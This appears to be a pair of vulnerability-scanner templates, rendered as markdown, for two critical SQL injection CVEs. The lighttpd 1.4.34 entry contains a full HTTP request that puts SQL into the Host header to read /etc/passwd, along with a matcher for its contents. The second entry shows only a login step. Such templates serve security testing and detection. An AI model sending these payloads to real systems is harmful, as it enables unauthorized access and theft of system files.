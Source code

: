 
# Lighttpd 1.4.34 SQL Injection and Path Traversal

## Description

- A SQL injection vulnerability in mod_mysql_vhost.c in lighttpd before 1.4.35 allows remote attackers to execute arbitrary SQL commands via the host name (related to request_check_hostname).
- severity - critical
- tags - lighttpd,injection,seclists,cve,cve2014,sqli

## Requests

### Step - 1

```
GET /etc/passwd HTTP/1.1
Host: [::1]' UNION SELECT '/


```

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0:

---

# Online Event Booking and Reservation System 2.3.0 - SQL Injection

## Description

- Online Event Booking and Reservation System 2.3.0 contains a SQL injection vulnerability in event-management/views. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cve,cve2021,sqli,authenticated

## Requests

### Step - 1

```
POST /login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

name={{username}}&pwd={{password}}

```
